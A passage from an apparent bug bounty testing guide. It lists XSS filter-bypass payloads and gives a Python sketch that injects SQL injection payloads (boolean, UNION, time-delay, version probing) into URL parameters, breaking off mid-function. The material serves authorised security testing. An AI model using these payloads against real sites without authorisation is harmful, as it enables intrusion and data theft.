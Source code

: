 ### **4. Filter Bypass Techniques**
```html
<!-- Case variation -->
<ScRiPt>alert('XSS')</ScRiPt>
<SCRIPT>alert('XSS')</SCRIPT>

<!-- Encoding -->
%3Cscript%3Ealert('XSS')%3C/script%3E
&lt;script&gt;alert('XSS')&lt;/script&gt;

<!-- Double encoding -->
%253Cscript%253Ealert('XSS')%253C/script%253E

<!-- HTML entities -->
&lt;script&gt;alert(String.fromCharCode(88,83,83))&lt;/script&gt;

<!-- Attribute breaking -->
"><script>alert('XSS')</script>
'><script>alert('XSS')</script>

<!-- NULL byte -->
<script>alert('XSS');</script>%00
```

---

## 🛠️ **USING BUG BOUNTY HUNTER PRO FOR REPRODUCTION**

### **1. Set Up Testing Environment**
```bash
# Start the Bug Bounty Hunter Pro
cd "c:\Users\ACER\Desktop\projects\Kai\examples\bug_bounty"
python start_ui.py
```

### **2. Configure Payloads in the System**
1. **Go to Payloads section** in the web UI
2. **Add custom payloads** for your specific target
3. **Configure payload categories**:
   - SQL Injection payloads
   - XSS payloads
   - CSRF tokens
   - LFI/RFI payloads

### **3. Automated Testing with the Platform**
```python
# Example automation script
def test_sql_injection(target_url, parameter):
    payloads = [
        "' OR '1'='1",
        "' UNION SELECT NULL--",
        "'; WAITFOR DELAY '00:00:05'--",
        "' AND (SELECT SUBSTRING(@@version,1,1))='M'--"
    ]
    
    for payload in payloads:
        test_url = f"{target_url}?{parameter}={payload}"
        # Test with the platform's scanning engine
        response = scan_target(test_url)
        analyze_response(response, payload)

def test_xss(target_url, parameter):
    payloads = [
```